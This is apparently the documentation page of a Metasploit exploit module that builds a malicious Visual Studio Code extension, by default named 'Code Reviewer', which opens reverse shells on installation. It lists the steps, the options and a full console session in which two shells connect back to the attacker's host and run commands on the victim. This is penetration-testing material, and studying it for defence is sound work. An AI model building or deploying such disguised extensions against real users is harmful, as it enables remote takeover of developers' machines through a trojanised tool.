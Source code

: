 ## Vulnerable Application

Creates a vsix file which can be installed in Visual Studio Code as an extension.
At activation/install, the extension will execute a shell or two.

Tested against VSCode 1.87.2 on Ubuntu 22.04

## Verification Steps

1. Install VSCode
1. Start msfconsole
1. Do: `use exploit/multi/fileformat/visual_studio_vsix_exec`
1. Do: `set lhost [IP]`
1. Do: `run`
1. In Visual Studio, click the extensions button on the left (4 boxes with the top
right one offset)
1. Click the 3 dots in the new window, select `Install from VSIX...`.
1. Click the extension
1. You should get a shell or two

## Options

### NAME

The name of the extension. Defaults to `Code Reviewer`

### DESCRIPTION

The description of the extension. Defaults to `Reviews code`

### VERSION

The version of the extension. Defaults to `0.0.1`

### README

The readme contents for the extension. Defaults to ``

## Scenarios

### VSCode 1.87.2 on Ubuntu 22.04

```
msf6 > use exploit/multi/fileformat/visual_studio_vsix_exec
[*] Using configured payload nodejs/shell_reverse_tcp
msf6 exploit(multi/fileformat/visual_studio_vsix_exec) > set lport 5989
lport => 5989
msf6 exploit(multi/fileformat/visual_studio_vsix_exec) > set lhost 111.111.11.111
lhost => 111.111.11.111
msf6 exploit(multi/fileformat/visual_studio_vsix_exec) > exploit

[*] Started reverse TCP handler on 111.111.11.111:5989 
[+] extension.vsix stored at /root/.msf4/local/extension.vsix
[*] Waiting for shell
[*] Command shell session 1 opened (111.111.11.111:5989 -> 111.111.11.111:33070) at 2024-03-22 17:22:16 +0000

[*] Command shell session 2 opened (111.111.11.111:5989 -> 111.111.11.111:33080) at 2024-03-22 17:22:16 +0000
whoami
h00die
id
uid=1000(h00die) gid=1000(h00die) groups=1000(h00die),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),119(docker)
code -v   
1.87.2
863d2581ecda6849923a2118d93a088b0745d9d6
x64
```
